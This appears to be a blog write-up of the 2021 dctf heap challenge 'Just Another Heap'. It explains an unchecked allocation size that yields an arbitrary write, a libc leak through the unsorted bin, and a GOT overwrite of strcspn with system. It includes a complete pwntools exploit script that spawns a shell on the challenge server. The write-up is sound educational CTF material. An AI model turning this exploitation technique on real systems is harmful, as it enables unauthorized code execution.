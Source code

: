 ```yaml
---
title: "2021 dctf Write-up"
date: 2021-05-17T19:18:39+09:00
layout: post
categories: ["ctf"]
tags: []
---
```

## Tasks

- Pwn💻
  - Just Another Heap (500pts)

## Just Another Heap (500pts)

I couldn't solve this one prob in time, but I want to post this solving skills. It's hard to find, but when I found it, It's very simple Arbitrary Write.

![1.png](/images/2021-dctf/1.png)

- It has 5 user functions(create, relive, forget, change, listing).

`create()` has a role that makes malloc_frame(0x20) and  malloc_userinput(size).
The point is, this prob has a unique fading input with this part.

```c
puts("How long is your memory");
input_lu(&size);                          // no size check
malloc_user = malloc(size);               // size > 0x308 / forget -> unsorted bin
puts("Sometimes our memories fade and we only remember parts of them.");
input_lu(&fade);                          // no filter
puts("Would you like to leave some space at the beginning in case you remember later?");
if ( fade <= size )
{
  if ( malloc_user )
  {
    for ( i = 0; i < fade; ++i )
      malloc_user[i] = '_';
  }
  malloc_user += fade;
```

memories will be faded `fade` bytes with `_`, and user input is behind the `_` strings if malloc_user is NOT 0.
So, if `malloc(size)` returns `0`, I can overwrite anywhere.

### Exploit

First, set chunks that `size>0x408` between 2 small chunks
to leak libc from `main_arena+xx`.

And make 1 tcache and `0x410` unsorted bin. Now `main_arena+xx` has written in unsorted bin.

and if I rewrite and use `change()` to fill fade bytes and get libc addr with `relive()` function.

- `change()` function : overwrite from the beginning or behind fade `_` strings
- `relive()` function : print user input with fade `_` string

Finally, Use This mentioned skills to do GOT Overwriting.

> memories will be faded `fade` bytes with `_`, and user input is behind the `_` strings
> if malloc_user is NOT 0.
> So, if `malloc(size)` returns `0`, I can overwrite anywhere.

input `/bin/sh\x00` in malloc_frame[] and program will call `strcspn(addr,'\n')`. Get The Shell.

### Code

Here is the Exploit Code.

```py
from pwn import *

context.log_level='debug'

def create(idx, name, size, hide, cont, important, recent):
  p.recv()
  p.sendline(str(1))
  p.recv()
  p.sendline(str(idx))
  p.recv()
  p.sendline(name)
  p.recv()
  p.sendline(str(size))
  p.recv()
  p.sendline(str(hide))
  p.recv()
  p.sendline(cont)
  p.recv()
  p.sendline(important)
  p.recv()
  p.sendline(recent)

def relive(idx):
  p.recv()
  p.sendline(str(2))
  p.recv()
  p.sendline(str(idx))

def change(idx, cont):
  p.recv()
  p.sendline(str(4))
  p.recv()
  p.sendline(str(idx))
  p.recv()
  p.sendline("Y")
  p.recv()
  p.send(cont)

def forget(idx):
  p.recv()
  p.sendline(str(3))
  p.recv()
  p.sendline(str(idx))

def listing():
  p.recv()
  p.sendline(str(5))

p=remote("dctf-chall-just-another-heap.westeurope.azurecontainer.io", 7481)
#p=process("./just_another_heap")
e=ELF("./just_another_heap")
l=e.libc

create(0, "A"*8, 0x20, 0, "1234", "N", "N")
create(1, "B"*8, 0x410, 0, "1234", "N", "N")
create(2, "A"*8, 0x20, 0, "1234", "N", "N")
forget(0)
forget(1)
#pause()
create(3, "B"*8, 0x410, 6, "", "N", "N")
#pause()
change(3,"A"*8)
relive(3)

p.recvuntil("A"*7+" ")
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x3ebca0

print hex(libc_base)

create(4, "C"*8, libc_base, e.got['strcspn'], p64(libc_base+l.sym['system']), "N", "N")
pause()
p.recv()
p.sendline(str(1))
p.recv()
p.sendline("//bin/sh\x00")
p.interactive()
```
